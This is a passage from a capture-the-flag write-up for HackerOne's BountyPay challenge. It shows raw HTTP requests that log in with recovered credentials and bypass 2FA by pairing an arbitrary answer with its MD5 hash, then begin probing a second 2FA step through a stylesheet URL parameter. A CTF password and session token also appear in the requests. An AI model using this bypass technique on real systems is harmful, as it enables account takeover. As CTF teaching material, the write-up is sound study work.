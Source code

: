 So I tried to first insert these credentials in staff.bountypay.h1ctf.com and then I tried in app.bountypay.h1ctf.com and finally they worked.
At this point then I bypassed the 2FA challenge just by using an arbitrary *challenge_answer* and the related MD5 for the *challenge*:
```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4078.0 Safari/537.36 autochrome/blue
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

username=marten.mickos&password=h%26H5wy2Lggj*kKn4OD%26Ype&challenge=098f6bcd4621d373cade4e832627b4f6&challenge_answer=test
```

So at this point I rushed to loading the May transactions:
{F856420}

Then I clicked on pay and...damn! Another **2FA** challenge and we have just 2 minutes to insert the right code! I am starting to hate them :D

{F856421}

The "Send challenge" request was the following:
```
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4078.0 Safari/537.36 autochrome/blue
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9

app_style=https%3A%2F%2Fwww.bountypay.h1ctf.com%2Fcss%2Funi_2fa_style.css
```

